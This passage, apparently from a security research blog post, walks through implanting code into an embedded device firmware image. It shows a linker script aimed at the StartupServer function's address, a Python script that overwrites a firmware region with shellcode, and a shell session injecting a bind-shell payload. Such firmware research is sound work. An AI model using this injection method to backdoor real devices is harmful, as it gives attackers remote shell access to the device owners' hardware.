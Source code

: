 We need to edit the linker script and put the right offset, which corresponds to the start address of *StartupServer* function:

{% highlight c %}
SECTIONS
{
  . = 0x805f4434;
  .start : { *(.start) }
  .text : { *(.text) }
  .data : { *(.data) }
  .rodata : { *(.rodata) }
}
{% endhighlight %}


I wrote this quick and dirty Python script to overwrite a given section with custom shellcode:

{% highlight python %}
#!/usr/bin/env python3
import sys

LOAD_ADDRESS = 0x80004000

if __name__ == "__main__":

    if len(sys.argv) < 5:
        print("Usage: {} firmware shellcode start end")
        sys.exit(-1)

    firmware_file = sys.argv[1]
    shellcode_file = sys.argv[2]
    start_offset = int(sys.argv[3], 16) - LOAD_ADDRESS
    end_offset = int(sys.argv[4], 16) - LOAD_ADDRESS

    available_space = end_offset - start_offset

    print("Available space: {} bytes".format(available_space))

    with open(shellcode_file, 'rb') as f:
        shellcode = f.read()

    if len(shellcode) > available_space:
        print("Not enough available space to fit shellcode")
        sys.exit(-1)

    padding = b"\x00" * (available_space - len(shellcode))

    print("Overwriting firmware file with shellcode.")
    with open(firmware_file, 'r+b') as f:
        f.seek(start_offset)
        f.write(shellcode)
        f.write(padding)
{% endhighlight %}


Let's inject our shellcode:

{% highlight sh %}
cp implant.in implant.shellcode
./inject.py implant.shellcode ~/git/ecoshell/bindshell_thread.bin 0x805f4434 0x805f4b28
Available space: 1780 bytes
Overwriting firmware file with shellcode.
{% endhighlight %}
